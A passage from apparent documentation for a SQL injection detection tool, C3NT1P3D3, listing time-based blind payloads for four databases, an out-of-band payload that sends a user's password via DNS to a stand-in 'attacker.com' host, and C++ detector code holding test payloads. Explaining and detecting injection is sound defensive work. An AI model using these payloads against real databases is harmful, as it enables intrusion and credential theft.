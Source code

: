 **Requirements:**
- Same number of columns in both queries
- Compatible data types
- UNION operator support

### 4. Time-Based Blind SQL Injection

**Technique:** Infer data based on response time delays

**Example Payloads:**
```sql
-- MySQL
' OR IF(1=1, SLEEP(5), 0)--

-- PostgreSQL
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--

-- SQL Server
'; WAITFOR DELAY '00:00:05'--

-- Oracle
' OR DBMS_LOCK.SLEEP(5)--
```

**Detection Pattern:**
- Response time > baseline + delay
- Consistent timing differences
- No visible output changes

### 5. Out-of-Band SQL Injection

**Technique:** Exfiltrate data via DNS/HTTP requests

**Example Payload (MySQL):**
```sql
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\a'))--
```

## C3NT1P3D3 Detection Implementation

### Multi-Vector Testing Strategy

```cpp
class SQLInjectionDetector {
private:
    struct TestPayload {
        std::string payload;
        std::string type;  // error, boolean, union, time
        std::function<bool(const std::string&)> validator;
    };
    
    std::vector<TestPayload> payloads_ = {
        // Error-based
        {"' OR '1'='1", "error", &containsErrorSignature},
        {"1' AND 1=CONVERT(int, (SELECT @@version))--", "error", &containsErrorSignature},
        
        // Boolean-based
        {"' AND '1'='1", "boolean", &checkBooleanResponse},
        {"' AND '1'='2", "boolean", &checkBooleanResponse},
        
        // Union-based
        {"' UNION SELECT NULL--", "union", &checkUnionResponse},
        {"' UNION SELECT NULL,NULL,NULL--", "union", &checkUnionResponse},
        
        // Time-based
```